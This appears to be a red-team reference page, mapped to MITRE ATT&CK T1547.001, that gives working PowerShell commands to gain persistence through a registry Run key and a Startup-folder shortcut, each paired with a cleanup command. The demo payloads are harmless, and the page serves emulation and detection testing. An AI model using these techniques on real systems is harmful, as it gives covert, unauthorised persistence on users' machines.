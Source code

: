 # TA0003 - Persistence

*- maintaining access.*

## T1547 - Boots or Logon Autostart Execution

### T1547.001 - Registry Run Keys / Startup Folder

- Execute $cmd when current user logins via registry run key:
    - Attack:
    ```ps1
    $cmd = "$env:SystemDrive\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -Command Get-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
    New-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name poc -Value $cmd -Force
    ```
    - Cleanup:
    ```ps1
    Remove-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name poc -Force
    ```

- Execute $cmd when current user logins via startup folder:
    - Attack:
    ```ps1
    $cmd = "$env:SystemDrive\Windows\explorer.exe $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
    $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.Save()
    ```
    - Cleanup:
    ```ps1
    Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
    ```

## Resources
- [TA0003 - Persistence](https://attack.mitre.org/tactics/TA0003/)
    - [T1547 - Boot or Logon Autostart Execution](https://attack.mitre.org/techniques/T1547/)
        - [T1547.001 - Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)

